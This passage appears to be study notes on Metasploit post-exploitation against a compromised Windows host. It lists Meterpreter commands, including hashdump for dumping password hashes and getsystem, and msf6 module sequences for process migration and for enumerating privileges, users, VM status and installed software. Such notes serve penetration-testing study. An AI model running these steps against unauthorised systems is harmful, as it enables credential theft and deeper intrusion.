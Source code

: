 There are more tools since we are on a Windows OS.

| Command      | Description                             |
| ------------ | --------------------------------------- |
| `screenshot` | Take a screenshot of the screen target. |
| `getsystem`  |                                         |
| `hashdump`   | Dump all hashes from the target.        |
| `show_mount` | Display all mounted file system.        |

```bash
meterpreter> migrate 2852  # powershell.exe
# CTRL+Z
```

**Architecture migration**

```bash
msf6> use windows/manage/migrate
msf6> set session 1
msf6> run
msf6> sessions 1
meterpreter> sysinfo
# CTRL+Z
```

**Privilege enumeration**

```bash
msf6> use post/windows/gather/win_privs
msf6> set session 1
msf6> run
```

**Logged on user enumeration**

```bash
msf6> use post/windows/gather/enum_logged_on_users
msf6> set session 1
msf6> run
```

**Virtual Machine**

```bash
msf6> use post/windows/gather/checkvm
msf6> set session 1
msf6> run
```

**Installed program enumeration**

```bash
msf6> use post/windows/gather/enum_applications
msf6> set session 1
msf6> run
```
